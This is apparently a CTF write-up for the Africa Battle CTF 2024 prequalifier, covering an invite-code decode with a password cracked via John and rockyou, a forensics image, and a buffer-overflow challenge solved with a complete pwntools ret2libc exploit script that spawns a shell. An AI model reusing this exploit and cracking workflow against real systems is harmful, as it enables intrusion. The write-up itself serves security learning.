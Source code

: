 # AFRICA BATTLE CTF 2024 PREQUAL

#### Challenges:
- Rules (Misc)
- Invite Code (Misc)
- Do[ro x2] (Forensics)
- Poj(Pwn)
- Jenkins (Web)
- Hmmmm!... (Web): _But not submitted, cause time over_

## Rules (Misc)
![image](./assets/1.png)

```
Flag: battleCTF{HereWeGo}
```
## Invite Code (Misc)

The challenge in question was made available before the CTF event started and can be found on bug|pwn Discord, Twitter and LinkedIn.

![image](./assets/2.png)
![image](./assets/3.png)

Decode the hex use *invite.ini* content and decode as b64 and extract gzip archive
![image](./assets/4.png)

Now we crack the user pasword using john and rockyou wordlist and find password **nohara**

![image](./assets/5.png)

At this point we use cracked password as key to decrypt RC4 encryption and got the flag

![image](./assets/6.png)

```
Flag: battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}
```

## Do[ro x2] (Forensics)

In this challenge they provide us an [**AD1 file**](./assets/roro.ad1)

By using FTK Imager 4.7.xx we provide the password *Dororo* like chall name and it worked !

![image](./assets/7.png)

## Poj(Pwn)

Giving us 64 bits ELF file:

![image](./assets/8.png)

checksec result:

```sh
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./
```
After running the program we notice that some address is leaked
![image](./assets/9.png)

Now, decompile the program and figure out that it's libc **write** function. Here's the code
![image](./assets/10.png)

```c
void data.0000117d(void)
{
    write(1, "Africa battle CTF 2024\n", 0x17);
    printf("Write() address : %p\n", _write);
    fcn.0000115c();
    return;
}
```

Here is the decompile code of *fcn.0000115c()* function
![image](./assets/11.png)

```c
void fcn.0000115c(void)
{
    void *buf;
    
    read(0, &buf, 0x100);
    return;
}
```
Obviously we see a potential buffer overflow because it's read 0x100 bytes but *buf* @ stack - 0x48, so offset to RIP is 0x48 i.e 72

Confirmed: 
![image](./assets/12.png)

To determine the libc base here, we need to subtract the leaked libc value of the write function from the actual offset of write@libc.

Here is my [script](./poj/solve.py) to solve

```python
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw, env={"LD_PRELOAD":"./libc.so.6"})


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './poj'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

libc = ELF("./libc.so.6", checksec=False)
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 0x48

io.recvuntil(b'address : ')

write_addr = int(io.recvline(), 16)


libc_base = write_addr -  libc.sym['write']
system = libc_base + 0x4dab0
binsh = libc_base + 0x197e34

# POP RDI gadget (found with ropper)
pop_rdi = libc_base + 0x28215
ret = libc_base + 0x2668c


info('Write addrs: %#x', write_addr)
info('libc_base base addr: %#x ', libc_base)
info('pop rdi addr: %#x ', pop_rdi)
info('ret addr: %#x ', ret)

payload = flat(
            asm('nop') * offset,
            pop_rdi,
            binsh,
            ret,
            system)


io.sendline(payload)


io.interactive()
```

![image](./assets/13.png)

```
Flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
```